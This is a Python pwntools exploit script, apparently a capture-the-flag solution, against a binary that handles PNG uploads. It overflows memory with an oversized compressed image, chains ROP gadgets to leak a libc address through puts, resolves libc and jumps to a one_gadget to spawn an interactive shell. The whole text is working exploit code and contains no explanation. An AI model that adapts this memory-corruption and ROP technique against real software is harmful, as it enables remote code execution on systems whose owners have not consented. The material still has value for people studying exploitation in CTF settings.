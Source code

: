 ````python


def add_png(width,height,data):
	choice(2)
	png=zlib.compress(genPng(width,height,data))
	sh.send(p32(len(png)))
	sh.send(png)

def monitor_file():
	choice(6)

def delete_file(index):
	choice(4)
	sh.recvuntil('?\n')
	sh.sendline(str(index))

mutex=0x000000000060E160
cond=0x000000000060E1A0
rdi_ret=0x00000000004038b1
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
exit=elf.plt['exit']
mutex_unlock=elf.plt['pthread_mutex_unlock']
sleep=elf.plt['sleep']
def rop(ropchain,index):
	monitor_file()
	add_png(1024,1024,'A'*1024*1024*9)
	delete_file(index)
	payload='A'*(1024*1024-0x1100-0x29)
	payload+=p64(0)+p64(cond)+p64(mutex)+p64(0)+p64(0)
	payload+=ropchain
	payload=payload.ljust(0x100000,'\x00')
	add_png(1024,1024,payload)

ropchain=p64(rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(rdi_ret)+\
		 p64(mutex)+p64(mutex_unlock)+\
		 p64(rdi_ret)+p64(60)+p64(sleep)
rop(ropchain,0)
#leak libc
sh.recvuntil('data\n')
puts_addr=u64(sh.recvuntil('\n').replace('\n','').ljust(8,'\x00'))
print hex(puts_addr)
libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
system=libc_base+libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
one_gadget=libc_base+0x4526a
#get shell
ropchain=p64(one_gadget)
rop(ropchain,1)
sh.interactive()
````
